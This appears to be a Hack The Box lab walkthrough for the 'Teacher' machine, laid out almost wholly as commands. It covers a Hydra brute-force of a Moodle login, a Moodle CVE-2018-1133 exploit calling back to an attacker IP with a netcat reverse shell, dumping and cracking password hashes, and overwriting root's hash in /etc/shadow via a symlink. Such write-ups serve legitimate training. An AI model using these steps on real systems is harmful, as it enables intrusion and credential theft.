 # 🎓 HTB: Teacher – Command Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔎 Reconnaissance

### Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.153
```

### Targeted Service Scan
```bash
nmap -sC -sV -p 80 -oA scans/nmap_services 10.10.10.153
```

---

## 🌐 [Web Enumeration](HTTP)

### Directory Bruteforcing with Gobuster
```bash
gobuster dir --url http://10.10.10.153 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 50
```

### Discover Hidden Credential in Image
```bash
wget http://10.10.10.153/images/5.png
mv 5.png 5.txt
cat 5.txt
```

### Generate Password List (Python)
```python
#!/bin/python3
import string

partial_pass = 'Th4C00lTheacha'

for c in string.printable:
    print(partial_pass + c)
```

### Brute Force Moodle Login with Hydra
```bash
hydra -l giovanni -P passlist.txt 10.10.10.153 \
http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login"
```

---

## 💻 Remote Code Execution (Moodle CVE-2018–1133)

### Use MoodleExploit (PHP)
```bash
php MoodleExploit.php url=10.10.10.153/moodle \
user=giovanni pass='Th4C00lTheacha#' \
ip=10.10.14.51 port=80 course=2
```

### Netcat Listener
```bash
nc -nvlp 80
```

---

## 🧬 Post Exploitation: Privilege Escalation

### 📂 Find Moodle DB Credentials
```bash
cat /var/www/html/moodle/config.php
```

### Connect to MySQL with DB creds
```bash
mysql -u root -p
# Password: Welkom1!
```

### Extract Moodle User Hashes
```sql
USE moodle;
SELECT username, password FROM mdl_user;
```

### Crack MD5 Hash with Hashcat
```bash
hashcat -m 0 hashcat.input /usr/share/wordlists/metasploit/password.lst --force
```

### Switch to giovanni User
```bash
su giovanni
# or SSH with cracked password 'expelled'
```

---

## 🚀 PrivEsc via backup.sh Logic Flaw

### 📁 Create Symlink to /etc/shadow
```bash
ln -s /etc/shadow ~/work/tmp/link
cp ~/work/tmp/link shadow.backup
```

### ✏️ Replace root hash with giovanni's
Edit `/etc/shadow` and copy giovanni’s hash to root’s line.

### Become Root
```bash
su -
# Password: expelled
```

### ✅ Restore Original Shadow File
```bash
cp ~/work/shadow.backup /etc/shadow
```

---

## 🧠 Optional: Symlink to Entire FS (Not Recommended)
```bash
ln -s / tmp/allfolders
```

---

Let me know if you'd like a downloadable Markdown file for this one or want it merged into a full HTB notes doc!